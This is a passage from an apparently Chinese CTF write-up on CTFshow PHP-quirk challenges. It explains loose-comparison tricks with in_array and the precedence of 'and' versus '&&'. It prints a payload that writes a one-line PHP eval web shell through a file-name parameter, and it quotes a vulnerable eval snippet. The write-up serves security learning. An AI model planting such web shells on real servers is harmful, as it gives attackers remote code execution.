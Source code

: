 再看判断条件就是：传值n存在于数组$allow中，就会将content写到n里

> 1.当字符串中 以 `数字开头 +字符串+数字或字符(字符串)+…` 的格式与数字进行 == 判断时，
>
> 会取第一次出现字符(字符串)前的数字作为转换值。
>
> 2.当字符串中 以 `字符(字符串)开头 +数字+数字或字符(字符串)+…` 的格式与数字进行 == 判断时，
>
> 不能转换为数字，被强制转换为0

那么令n=1.php，而数组中都是数字，就会取1放入in_array进行匹配

尝试写马
payload：

```
GET:
?n=1.php
POST:
content=<?php eval($_POST[1]);?>
```

## 100-ReflectionClass

```php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
}
```

提示flag在类ctfshow里，并且已经new给变量$ctfshow了
要求v1，v2，v3是数字，并且对分号进行过滤

这里学习了下yu师傅的博客：
[CTFSHOW PHP特性篇（上篇 89-110）羽的博客-CSDN博客_ctfshow php特性](https://blog.csdn.net/miuzzx/article/details/109168454)

考点1：`and`和`&&`的区别

`$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);`

```php
<?php
$a=true and false and false;
var_dump($a);  返回true

$a=true && false && false;
var_dump($a);  返回false
```
